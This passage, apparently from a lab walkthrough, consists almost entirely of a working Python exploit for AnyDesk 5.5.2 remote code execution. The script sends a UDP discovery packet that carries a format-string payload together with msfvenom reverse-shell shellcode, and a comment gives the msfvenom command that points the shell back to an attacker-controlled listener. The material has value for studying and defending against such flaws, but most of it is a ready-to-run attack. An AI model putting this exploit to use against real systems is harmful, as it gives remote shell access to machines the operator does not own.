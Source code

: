 ```shell
```

Then replace the shellcode in the python script with the generated one. The final version of the script should look like this:
```python
# Exploit Title: AnyDesk 5.5.2 - Remote Code Execution
# Date: 09/06/20
# Exploit Author: scryh
# Vendor Homepage: https://anydesk.com/en
# Version: 5.5.2
# Tested on: Linux
# Walkthrough: https://devel0pment.de/?p=1881

#!/usr/bin/env python
import struct
import socket
import sys

ip = '10.10.235.134'
port = 50001

def gen_discover_packet(ad_id, os, hn, user, inf, func):
  d  = chr(0x3e)+chr(0xd1)+chr(0x1)
  d += struct.pack('>I', ad_id)
  d += struct.pack('>I', 0)
  d += chr(0x2)+chr(os)
  d += struct.pack('>I', len(hn)) + hn
  d += struct.pack('>I', len(user)) + user
  d += struct.pack('>I', 0)
  d += struct.pack('>I', len(inf)) + inf
  d += chr(0)
  d += struct.pack('>I', len(func)) + func
  d += chr(0x2)+chr(0xc3)+chr(0x51)
  return d

# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.200.50 LPORT=443 -b "\x00\x25\x26" -f python -v shellcode
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\xf1\x7c\x94"
shellcode += b"\xa2\x97\xa9\x17\x7b\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\x9b\x55\xcc\x3b\xfd"
shellcode += b"\xab\x48\x11\xf0\x22\x9b\xa7\xdf\x3e\x5f\xc2"
shellcode += b"\xf3\x7c\x95\x19\x9d\xa1\xdf\x49\xa0\x34\x1d"
shellcode += b"\x44\xfd\xb9\x4d\x11\xdb\x24\x9b\xa7\xfd\xaa"
shellcode += b"\x49\x33\x0e\xb2\xfe\x83\xcf\xa6\x12\x0e\x07"
shellcode += b"\x16\xaf\xfa\x0e\xe1\xac\x54\x93\x15\xfa\x8d"
shellcode += b"\xe4\xc1\x17\x28\xb9\xf5\x73\xf0\xc0\xe1\x9e"
shellcode += b"\x9d\xfe\x79\x94\xa2\x97\xa9\x17\x7b"

print('sending payload ...')
p = gen_discover_packet(4919, 1, '\x85\xfe%1$*1$x%18x%165$ln'+shellcode, '\x85\xfe%18472249x%93$ln', 'ad', 'main')
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.sendto(p, (ip, port))
s.close()
print('reverse shell should connect within 5 seconds')
```
